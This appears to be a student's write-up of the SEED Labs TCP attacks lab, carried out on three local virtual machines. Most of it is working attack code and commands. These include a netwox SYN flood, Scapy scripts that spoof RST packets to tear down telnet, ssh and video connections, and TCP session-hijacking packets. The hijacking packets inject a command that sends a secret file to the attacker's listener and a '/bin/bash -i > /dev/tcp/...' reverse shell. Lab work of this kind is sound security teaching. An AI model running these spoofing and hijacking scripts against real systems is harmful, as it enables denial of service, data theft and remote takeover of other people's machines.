









Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/TCP_Attacks.pdf

Set up 3 VMs:

- **Server**: `10.0.2.4`
- **Attacker**: `10.0.2.15`
- **User**: `10.0.2.5`

# Task 1

First, on the server, turn off the countermeasure **SYN cookies**

```
sudo sysctl -w net.ipv4.tcp_syncookies=0
```

```shell
$sudo sysctl -q net.ipv4.tcp_max_syn_backlog
net.ipv4.tcp_max_syn_backlog = 128
```

Use `netstat -na`, get:

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN     
tcp        0      0 10.0.2.4:53             0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:53            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::53                   :::*                    LISTEN     
tcp6       0      0 :::21                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::3128                 :::*                    LISTEN     
tcp6       0      0 ::1:953                 :::*                    LISTEN     
udp        0      0 0.0.0.0:56869           0.0.0.0:*                          
udp        0      0 0.0.0.0:60971           0.0.0.0:*                          
udp        0      0 127.0.1.1:53            0.0.0.0:*                          
udp        0      0 10.0.2.4:53             0.0.0.0:*                          
udp        0      0 0.0.0.0:33333           0.0.0.0:*                          
udp        0      0 127.0.0.1:53            0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*                          
udp        0      0 0.0.0.0:631             0.0.0.0:*                          
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp6       0      0 ::1:34259               ::1:34202               ESTABLISHED
udp6       0      0 :::53                   :::*                               
udp6       0      0 :::49253                :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 ::1:34202               ::1:34259               ESTABLISHED
udp6       0      0 :::43932                :::*                               
raw        0      0 0.0.0.0:1               0.0.0.0:*               7          
raw6       0      0 :::58                   :::*                    7          
raw6       0      0 :::58                   :::*                    7        
```
No TCP connection has an `ESTABLISHED` state yet.

Then on the attacker machine:

```
sudo netwox 76 -i 10.0.2.4 -p 23 -s raw
```

After a while, use `netstat -na` to check again:

```
...   
tcp        0      0 10.0.2.4:23             253.37.9.90:29644       SYN_RECV   
tcp        0      0 10.0.2.4:23             248.147.173.48:53909    SYN_RECV   
tcp        0      0 10.0.2.4:23             247.46.89.105:7502      SYN_RECV   
tcp        0      0 10.0.2.4:23             243.229.203.189:42333   SYN_RECV   
tcp        0      0 10.0.2.4:23             246.244.53.206:57787    SYN_RECV   
tcp        0      0 10.0.2.4:23             249.102.12.251:24453    SYN_RECV   
tcp        0      0 10.0.2.4:23             244.176.157.55:49031    SYN_RECV   
tcp        0      0 10.0.2.4:23             247.2.21.131:10590      SYN_RECV   
tcp        0      0 10.0.2.4:23             246.91.154.140:20177    SYN_RECV   
tcp        0      0 10.0.2.4:23             248.79.118.252:19283    SYN_RECV   
tcp        0      0 10.0.2.4:23             244.80.239.198:32419    SYN_RECV   
tcp        0      0 10.0.2.4:23             242.210.141.208:16979   SYN_RECV   
tcp        0      0 10.0.2.4:23             253.118.208.122:16242   SYN_RECV   
tcp        0      0 10.0.2.4:23             250.62.104.1:59169      SYN_RECV   
tcp        0      0 10.0.2.4:23             253.106.167.210:45412   SYN_RECV   
tcp        0      0 10.0.2.4:23             242.127.134.197:2832    SYN_RECV   
tcp        0      0 10.0.2.4:23             240.252.233.154:29403   SYN_RECV   
tcp        0      0 10.0.2.4:23             244.144.27.104:39086    SYN_RECV   
tcp        0      0 10.0.2.4:23             245.46.194.239:65426    SYN_RECV   
tcp        0      0 10.0.2.4:23             252.95.20.253:54774     SYN_RECV   
tcp        0      0 10.0.2.4:23             249.17.43.156:55525     SYN_RECV   
tcp        0      0 10.0.2.4:23             252.217.188.194:13813   SYN_RECV   
tcp        0      0 10.0.2.4:23             243.100.186.129:23679   SYN_RECV   
tcp        0      0 10.0.2.4:23             244.56.4.56:17826       SYN_RECV   
tcp        0      0 10.0.2.4:23             245.8.59.84:53947       SYN_RECV   
tcp        0      0 10.0.2.4:23             253.88.152.41:26808     SYN_RECV  
...
```
There are plenty of `SYN_RECV`-state (i.e. half-open) TCP connections targeting `10.0.2.4:23` from random source IP addresses. The server seems to be overwhelmed.

Meanwhile, if you attempt to `telnet` the server machine from the user machine, it will show:


# Task 2

### TCP RST attack on `telnet` connection

First, on the user machine, launch a `telnet` request to the server:

```
telnet 10.0.2.4
```

A prompt asks you to give a username.**Just hold on** without typing anything.

### netwox

When implementing the attack by `netwox` command, simply use such a command on the attacker machine:

```
sudo netwox 78 -i 10.0.2.4
```

Then type any letter on the user machine. As I explained in [Packet Sniffing and Spoofing Lab](../Packet-Sniffing-and-Spoofing), a `telnet` message is sent once getting a letter. After that, it keeps listening for any response from the server. Since I spoof an `RST` packet from the server to the user, which received by the listening user and informed that the connection has terminated. So when a letter is pressed, a closed connection message shows:



### Scapy

**Note**: The login-in time window is too short. you should launch the attack as quickly as possible, or the login in prompt will be timed out after 60s. Therefore, in this task, you can finish the login-in process to observe the attack.

If you want to use a Python script with `scapy` module to spoof the RST packet. First, you should sniff the last `TCP`(or `telnet`) packet  from the server to the user by Wireshark on the attack machine:

For example:



The packet's TCP header:

> Transmission Control Protocol, Src Port: 23, **Dst Port: 59498**, Seq: 199921802, **Ack: 1577076274**, Len: 1
>     Source Port: 23
>     Destination Port: 59498
>     [Stream index: 0]
>     [TCP Segment Len: 1]
>     Sequence number: 199921802
>     **[Next sequence number: 199921803]**
>     Acknowledgment number: 1577076274
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 227
>     [Calculated window size: 29056]
>     [Window size scaling factor: 128]
>     Checksum: 0x953c [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Fill out the critical fields of the spoofed packet and send it using the codes in [`rst_telent.py`](./rst_telnet.py) below:

```python
from scapy.all import *

ip = IP(src="10.0.2.4", dst="10.0.2.5")
tcp = TCP(sport=23, dport=59498, flags="R", seq=199921803, ack=1577076274)

pkt = ip / tcp
ls(pkt)
send(pkt, verbose=0)
```

On the attacker machine, execute it with root privilege:
```
sudo python rst_telnet.py
```
Immediately, on the user machine, you can find the connection is terminated.



## TCP RST attack on `ssh` connection

The only difference between the two tasks is the port number: 23 for `telnet`, while 22 for `ssh`.

Build `ssh` connection on the user machine:

```
ssh seed@10.0.2.4
```
> **Note**: If it is the first time you `ssh` the server on your local machine, it may ask you if the RSA public key can be added. Please type '`yes`' and then type the password of username `seed`.


### netwox

Similar to [the one on `telnet`](#tcp-rst-attack-on-ssh-connection), Use the same commnad:

```
sudo netwox 78 -i 10.0.2.4
```

Then on the user machine after pressing anything you will get:



### scapy

Similar to [the one on `telnet`](#tcp-rst-attack-on-ssh-connection), Capture the last `ssh` packet from the server to the user (applied with filter `ssh`) using Wireshark on the attacker machine:

> Transmission Control Protocol, Src Port: 22, **Dst Port: 55494**, Seq: 565175980, **Ack: 3567039357**, Len: 52
>     Source Port: 22
>     Destination Port: 55494
>     [Stream index: 0]
>     [TCP Segment Len: 52]
>     Sequence number: 565175980
>     **[Next sequence number: 565176032]**
>     Acknowledgment number: 3567039357
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 291
>     [Calculated window size: 291]
>     [Window size scaling factor: -1 (unknown)]
>     Checksum: 0x3440 [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Although the data is encrypted, the TCP header is simply readable plain-text. Then a spoofed RST packet can be composed and sent with [`rst_ssh.py`](./rst_ssh.py):

```python
from scapy.all import *

ip = IP(src="10.0.2.4", dst="10.0.2.5")
tcp = TCP(sport=22, dport=55494, flags="R", seq=565176032, ack=3567039357)

pkt = ip / tcp
ls(pkt)
send(pkt, verbose=0)
```
Turn to the user machine, the `ssh` connection is broken as expected:



# Task 3

Assume that a user is watching YouTube video from the VM `10.0.2.4` (For better performance, you might clear up local history, data, and cookies of the browser on the user machine). We launch the attack from the attacker machine in the same subnet.

## Scapy

We can run a [`auto_rst`](./auto_rst.py) program to spoof an RST packet with proper `seq` and `ack` numbers whenever capturing a TCP packet from the user IP.

```python
from scapy.all import *

def spoof_tcp(pkt):
   ip  = IP(dst="10.0.2.5", src=pkt['IP'].dst)
   tcp = TCP(flags="R", seq=pkt['TCP'].ack,
                  dport=pkt['TCP'].sport, sport=pkt['TCP'].dport)
   spoofpkt = ip / tcp
   print("send a RST packet")
   send(spoofpkt, verbose=0)

pkt=sniff(filter='tcp and src host 10.0.2.5', prn=spoof_tcp)
```

Eventually, no video stream data can be gained from the server. The user cannot see any new video content.


## Netwox

Or simply use `netwox` tool 78 to automatically reset the TCP connection.

```
sudo netwox 78 --filter "src host 10.0.2.5"
```



# Task 4

First, assume the user establishes a `telnet` connection from the user to the server. There is a secret file `/home/seed/secret` on the server, if not, just create it.

```
echo "This is a secret file" > /home/seed/secret
```

Then, on the attacker machine, prepare a port (e.g. 9090) to get the data:

```
nc -lv 9090
```

## Netwox

Encode the payload `'\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'` into a hex string:

```
$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> '\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'.encode('HEX')
'0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d'
```

Since the last `telnet` packet from the server to the user captured by Wireshark is:

> Transmission Control Protocol, Src Port: 57640, Dst Port: 23, Seq: 1386528330, Ack: 1227064343, Len: 2
>     **Source Port: 57640**
>     Destination Port: 23
>     [Stream index: 0]
>     [TCP Segment Len: 2]
>     **Sequence number: 1386528330**
>     **[Next sequence number: 1386528332]**
>     **Acknowledgment number: 1227064343**
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 237
>     [Calculated window size: 30336]
>     [Window size scaling factor: 128]
>     Checksum: 0x5fbc [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Ref to the [documentation] of `netwox` tool 40, run such a command with correct parameters on the attacker machine:

```
sudo netwox 40 -l "10.0.2.5" -m "10.0.2.4" -o 57640 -p 23 -q 1386528332 -E 2000 -r 1227064343 -z -H "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d"
```

And now we get the content of the secret file on the server:



## Scapy

Similarly, the task can be done with `scapy`.

Assume the last packet from the user to the server is:

> Transmission Control Protocol, Src Port: 57644, Dst Port: 23, Seq: 1727979555, Ack: 435127836, Len: 2
>     **Source Port: 57644**
>     Destination Port: 23
>     [Stream index: 3]
>     [TCP Segment Len: 2]
>     Sequence number: 1727979555
>     **[Next sequence number: 1727979557]**
>     **Acknowledgment number: 435127836**
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 229
>     [Calculated window size: 29312]
>     [Window size scaling factor: 128]
>     Checksum: 0xbfe0 [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]

Construct the spoofed packet using [`sessionhijack.py`](./sessionhijack.py):

```python
import sys
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.........")
IPLayer = IP(src="10.0.2.5", dst="10.0.2.4")
TCPLayer = TCP(sport=57644, dport=23, flags="A",
               seq=1727979557, ack=435127836)
Data = "\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r"
pkt = IPLayer/TCPLayer/Data
ls(pkt)
send(pkt,verbose=0)
```

It also can steal the secret file:



**Note**: After a successful attack, the user terminal freezes in the session.

## Task 5

Similar to [Task 4](#task-4), except that the payload should be

```
\r /bin/bash -i > dev/tcp/10.0.2.15/9090 2>&1 0<&1 \r
```
to create a reversed shell from the server to the attacker.

So repeat the steps in previously task, to simplify, I just demonstrate with `scapy`:

As above, capture the last `telnet` packet from the user to the server using Wireshark:

> Transmission Control Protocol, Src Port: 57654, Dst Port: 23, Seq: 1265743785, Ack: 4268626928, Len: 2
>     **Source Port: 57654**
>     Destination Port: 23
>     [Stream index: 12]
>     [TCP Segment Len: 2]
>     Sequence number: 1265743785
>     **[Next sequence number: 1265743787]**
>     **Acknowledgment number: 4268626928**
>     Header Length: 32 bytes
>     Flags: 0x018 (PSH, ACK)
>     Window size value: 229
>     [Calculated window size: 29312]
>     [Window size scaling factor: 128]
>     Checksum: 0x965f [unverified]
>     [Checksum Status: Unverified]
>     Urgent pointer: 0
>     Options: (12 bytes), No-Operation (NOP), No-Operation (NOP), Timestamps
>     [SEQ/ACK analysis]


Use Python script to spoof the packet:


```python
import sys
from scapy.all import *

print("SENDING SESSION HIJACKING PACKET.........")
IPLayer = IP(src="10.0.2.5", dst="10.0.2.4")
TCPLayer = TCP(sport=57654, dport=23, flags="A",
               seq=1265743787, ack=4268626928)
Data = "\r /bin/bash -i > /dev/tcp/10.0.2.15/9090 2>&1 0<&1 \r"
pkt = IPLayer/TCPLayer/Data
ls(pkt)
send(pkt,verbose=0)
```

Finally, the reverse shell is created successfully:

